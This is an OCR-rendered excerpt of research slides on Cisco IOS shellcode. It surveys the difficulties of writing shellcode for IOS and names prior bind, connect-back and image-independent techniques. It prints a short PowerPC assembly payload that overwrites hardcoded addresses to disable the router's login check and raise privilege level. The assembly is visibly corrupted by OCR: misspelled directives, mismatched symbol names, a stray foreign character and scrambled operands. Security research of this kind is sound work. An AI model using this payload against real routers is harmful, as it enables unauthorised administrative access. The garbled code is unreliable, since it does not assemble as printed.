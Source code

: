 #### Main problems / Earlier shellcode

- There is no open API or syscall's for a third party developer. System calls are the interface into ROMMON
	- put char in console
	- reboot
	- change confreq, etc
- Cisco IOS Binary Diversity
- Cisco IOS is highly integrated (static linked) one big ELF without any modules (e.g. *.so)

Cisco IOS Bind shellcode by Varun Uppal Cisco IOS Connectback shellcode by Gyan Chawdhary Cisco IOS Shellcodes – BlackHat USA 2008

#### Tiny shellcode by Gyan Chawdhary

| .equ ret, 0x804a42e8 # hardcode |
| --- |
| .equ login, 0x8359b1f4 # hardcode |
| .equ qod, 0xff100000 |
| .equ priv, 0x8359be64 # hardcode |

#### main:

# login patch begin lis 9, login@ha la 9, login@l(9) li 8,0 stw 8, 0(9) # login patch end

# priv patch beqin lis 9, priv@ha la 9, priv@l(9) lis 8, qod@ha la 8, god@l(8) stw 8, 0(9) # priv patch end

# exit code lis 10, ret@ha 4, 10, ret@l addi mtctr ব bctrl

![](_page_28_Picture_0.jpeg)

#### lmage-independent shellcodes

- Signature-based Shellcode by Andy Davis Version-independent IOS shellcode, 2008 1. Invariant is a structure of code
- Disassembling Shellcode by Felix 'FX' Lindner Cisco IOS Router Explotation, 2009 2. Invariant is an unique string
- Interrupt-Hijack Shellcode by Columbia University NY Killing the Myth of Cisco IOS Diversity, 2011 3. Invariant is an interrupt handler routines

## All leverage a common Cisco IOS invariant to overcome a binary diversity
